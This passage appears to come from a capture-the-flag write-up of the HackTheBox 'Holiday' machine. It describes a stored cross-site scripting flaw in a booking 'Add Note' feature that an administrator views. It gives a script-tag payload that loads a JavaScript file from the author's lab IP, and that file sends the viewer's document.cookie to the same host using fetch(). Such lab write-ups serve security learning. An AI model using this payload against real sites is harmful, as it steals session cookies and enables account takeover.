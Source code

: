 ![](../../../.gitbook/assets/htb-holiday-image-10.png)

### XSS -> Administrator

In each of the booking details, there was an 'Add Note' function:

![](../../../.gitbook/assets/htb-holiday-image-11.png)

This was being viewed by an admin, which means XSS! I tried this payload:

```js
<script src="http://10.10.14.18/cookie.js"/>
```

The JS file only had this line:

```js
fetch('http://10.10.14.18?cookie=' + document.cookie);
```

